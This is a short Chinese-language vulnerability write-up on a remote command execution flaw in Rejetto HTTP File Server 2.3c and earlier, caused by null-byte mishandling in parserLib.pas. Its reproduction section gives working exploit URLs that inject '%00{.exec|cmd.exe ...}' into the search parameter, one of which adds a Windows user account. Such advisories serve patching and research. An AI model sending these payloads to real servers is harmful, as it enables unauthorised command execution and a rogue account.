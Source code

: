 Hfs 远程命令执行漏洞
====================

一、漏洞简介
------------

Rejetto HTTP File Server
2.3c及之前版本中的parserLib.pas文件中的'findMacroMarker'函数中存在安全漏洞，该漏洞源于parserLib.pas文件没有正确处理空字节。远程攻击者可借助搜索操作中的'%00'序列利用该漏洞执行任意程序。

二、漏洞影响
------------

2.3c以前的2.3x版本

三、复现过程
------------

    http://www.0-sec.org:8080/?search==%00{.exec|cmd.exe /c [Command-String].}
    http://www.0-sec.org:8080/?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.}
